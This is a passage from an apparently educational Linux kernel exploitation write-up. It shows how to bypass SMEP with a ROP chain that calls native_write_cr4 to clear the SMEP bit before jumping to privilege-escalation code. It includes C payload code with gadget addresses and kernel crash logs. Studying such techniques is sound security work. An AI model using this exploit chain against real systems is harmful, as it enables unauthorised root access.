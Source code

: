 {{% callout %}}
*For all the exploitation that I will introduce in this post, I will only explain the parts that are different from `ret2usr`. The parts that are exactly the same as the previous post are: **saving the state, opening the device, and leaking stack cookie.***
{{% /callout %}}

The way we build a ROP chain in the kernel is exactly the same as in userland. So here, instead of immediately return into our userland code, we will return into `native_write_cr4(value)`, then return to our privileges escalation code. For the current value of `CR4`, we can get it by either causing a kernel panic and it will be dumped out (or attaching a debugger to the kernel)
```bash
[    3.794861] CR2: 0000000000401fd9 CR3: 000000000657c000 CR4: 00000000001006f0
```

We will clear the 20th bit, which is at the position of `0x100000`, our `value` will be `0x6f0`. Our payload will be as follow:
```C
unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long native_write_cr4 = 0xffffffff814443e0;

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_ret; // return address
    payload[off++] = 0x6f0;
    payload[off++] = native_write_cr4; // native_write_cr4(0x6f0), effectively clear the 20th bit
    payload[off++] = (unsigned long)escalate_privs;

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```

For gadgets such as `pop rdi ; ret`, we can easily find them by grepping the `gadgets.txt` file that was generated by running `ROPgadget` on the kernel image in the first post.

{{% callout %}}
*It seems that in the kernel image file `vmlinux`, there is no information about whether a region is executable or not, so `ROPgadget` will attempt to find all the gadgets that exist in the binary, even the non-executable ones. If you try to use a gadget and the kernel crashes because it is non-executable, you just have to try another one.*
{{% /callout %}}

In theory, running this should give us a root shell. However, in reality, the kernel still crashes, and even more confusing, the reason for the crash is `SMEP`:
```bash
[    3.770954] unable to execute userspace code (SMEP?) (uid: 1000)
```
